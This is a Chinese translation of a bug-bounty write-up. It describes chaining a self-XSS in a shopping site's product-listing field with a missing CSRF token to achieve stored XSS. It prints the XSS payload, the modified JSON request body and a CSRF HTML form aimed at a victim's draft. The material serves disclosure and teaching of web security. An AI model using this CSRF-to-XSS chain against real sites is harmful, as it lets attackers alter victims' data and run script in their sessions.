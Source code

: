 # [复制]自我 XSS 和 CSRF 攻击导致存储 XSS

> 原文：<https://infosecwriteups.com/duplicated-self-xss-csrf-attack-lead-to-stored-xss-1a1db9f9bb90?source=collection_archive---------1----------------------->

![](img/f32090b62fd665d7d5f544991281da6a.png)

嗨伙计们

这是我的 Flex，在这篇文章中，我将分享一个私人程序的新漏洞，让我们称之为“example.com ”,该漏洞是一个自我 XSS 与 CSRF 攻击，导致存储 XSS。

# 发现的故事

目标是一个商店网站，当我测试添加产品的功能时，我开始添加我可爱的 XSS 有效负载**<SVG/onload = alert(0)>**到处都是，其中一个字段工作，并给我一个弹出窗口，因为字段的输入是错误的，网站告诉我这个值是错误的，所以这是一个自我 XSS 我试图找到点击劫持，使其可利用，但没有办法与点击劫持， 几分钟后，我试图找到一个 CSRF 攻击，所以我打开我的打嗝，捕捉到更改请求，我注意到没有 CSRF 令牌或任何 CSRF 保护，所以我试图利用这两个错误一起获得存储的 XSS，编辑后的请求的主体是这样的

```
{"basePage":{"draftIds":["victim_id"],"wsId":"-1","wsType":"-1"},"mode":"INDIVIDUAL","action":"SAVE","layerName":"EDITPANE","variation":null,"currencyInfo":{"currencySymbolLeft":true,"singularName":"U.S. dollars","moneySymbol":"$","decimalSymbol":".","groupingSymbol":",","gS":",","decimalPlaces":"2","currencyCode":"USD","pluralName":"U.S. dollar"},"singleList":true,"listingMode":"AddItem","fields":{"upc":"XSS_payload","":"true"},"updateRequired":true,"customFields":{},"byPassUpdate":false,"sellerType":"C2C","isAdd":"","saveUlsi":true,"edpCrNew":false,"deletedFields":[],"updateCrNew":true,"recentCategories":null,"suggestedCategories":["13718:Collectibles > Arcade, Jukeboxes & Pinball > Arcade Gaming > Replacement Parts","57988:Clothing, Shoes & Accessories > Mens Clothing > Coats & Jackets","217:Sports Mem, Cards & Fan Shop > Sports Trading Cards > Other Sports Trading Cards","48:Collectibles > Photographic Images > Contemporary (1940-Now) > Other Contemporary Photographs","75708:Toys & Hobbies > Action Figures > TV, Movie & Video Games"],"customAttributes":{"PL_OPT_IN":"0","PL_SELLER_ELIGIBLE":"1","PL_FORMAT_ELIGIBLE":"0","PL_CATEGORY_ELIGIBLE":"0","PL_ALREADY_OPTED":"0"},"draftMode":"Listing","restricted":false,"customPreference":{"preferences":{"scheduleStartTime":true,"reservePrice":true,"sellAsLot":true,"privateListing":true,"":true,"additionalPaymentOptions":true,"additionalCheckoutInstructions":true,"salesTax":true,"additionalReturnPolicyDetails":true,"internationalShipping":true,"shippingExclusionList":true,"shippingRateTable":true},"sellerDetails":["NO_STORE_SUBSCRIPTION","NO_SHIPPING_DISCOUNTS","NON_SM_SELLER"]},"payments20":false,"isvShown":false}
```

所以，我只是希望受害者草案 id 使用 CSRF 攻击来更改草案信息，并添加 XSS 有效载荷，我使用的 CSRF 代码

```
<form action="https://exampl.com/endpoint" method="POST">
    <input type="hidden" name="clientType" value="Firefox:66:">
    <input type="hidden" name="request" value='[add_decode_value_here]'>
    <input type="submit" value="send">
</form>
```

当我使用这段 HTML 代码，并在上面添加带有受害者草稿 ID 和 XSS 有效载荷 BOOOM 的请求体时！！字段值将被更改，当用户再次访问他的页面时，XSS 有效负载将被执行。

对我很好但是也是复制的:_(。

结束了。